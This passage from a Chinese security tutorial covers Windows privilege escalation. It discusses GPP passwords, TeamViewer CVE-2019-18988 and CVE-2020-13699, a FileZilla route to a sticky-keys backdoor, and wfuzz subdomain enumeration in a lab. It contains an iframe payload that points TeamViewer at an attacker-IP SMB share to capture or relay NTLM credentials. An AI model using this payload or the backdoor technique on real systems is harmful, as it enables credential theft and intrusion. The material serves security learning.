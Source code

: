当创建新的 GPP 时，在 SYSVOL 中创建了一个与相关配置数据相关联的 XML 文件，如果提供了密码，那么 AES-256 位加密应该足够强的。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibMznfFgS0kDVQXLCd8yEnJYTExVY3IibgPmXZK8nUeCMDCPRl7d70T2w/640?wx_fmt=png)

**5** **五、第三方软件提权**

### **5.1 Teamview**

CVE-2019-18988TeamViewer 特权提升漏洞分析

通过 14.7.1965 的 TeamViewerDesktop，可以绕过远程登录访问控制，因为同一密钥用于不同客户的安装。至少从 v7.0.43148 起，它就在所有安装中都使用了共享的 AES 密钥，并且在该产品的当前版本中至少将其用于 OptionsPasswordAES。如果攻击者知道此密钥，则他们可以解密存储在 TeamViewer 注册表或配置文件中的保护信息。在 v9.x 之前的版本中，这使攻击者可以解密系统的无人参与访问密码（这允许远程登录系统以及浏览无头文件）。最新版本的 OptionPasswordAES 仍使用相同的密钥，但似乎已更改了无人参与访问密码的存储方式。

以下两个链接师傅复现和分析得很详细（膜:

https://hackergu.com/cve-2019-18988-teamviewer-decryptteamviewer/

https://www.4hou.com/posts/L5KX

CVE-2020-13699

TeamViewer 存在未引用的搜索路径或元素的安全缺陷，更具体地说，这是由于应用程序没有正确引用它的自定义 URI 处理程序，当安装了 TeamViewer 的易受攻击版本的系统访问恶意创建的网站时，可能会被利用。

攻击者可以使用精心制作的 URL（iframesrc='teamviewer10:--play\\attacker-IP\share\fake.tvs'）将恶意 iframe 嵌入网站中，这将启动 TeamViewerWindows 桌面客户端并强制其执行以下操作：打开远程 SMB 共享。Windows 在打开 SMB 共享时将执行 NTLM 身份验证，并且可以将请求进行转发（使用诸如响应程序之类的工具）以执行代码（或捕获以进行哈希破解）。

### **5.2 FileZilla**

FileZilla 是一个 ftp 服务器，启动时默认时 SYSTEM 权限，假如相关目录权限配置不严，可以在 xml 文件中读取到 server 的密码，得到密码后登录 server 再对 setch.exe 进行替换，从而实现 shift 粘滞键后门.

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibgIL3fX6XIAb4jEoY9a7ichLeJ6cAHHVwAfT2cTHjUQmwSyBvlybUORw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibQxgbFekt7KiaoOGwqwOylRHRHibyKiaNqt84iaGic6Y3nRVQr1YcdhcknTg/640?wx_fmt=png)

**七、靶场实践**
==========

下面我们靶场的拓扑图：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Libq7qRdRdawiaH8kicYrUF06cPXdqLmhyONEyjElHy4ASNKY8Zribn6tGjw/640?wx_fmt=png)

### **7.1 子域名收集**

我们可以通过主域名发 test123.com 收集更多的域名，从而获得更多的目标。子域名收集的工具很多 layer、subDomainBrute，这里使用 kali 自带的 wfuzz 收集子域名，以下为开源地址 https://github.com/xmendez/wfuzz

```
wfuzz -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -uwww.test123.com -H "Host:FUZZ.test123.com" --hw 53
```

-H 指定 UserAgent，FUZZ 的位置在 host 里，原因是 Host 请求头决定访问哪个虚拟主机  
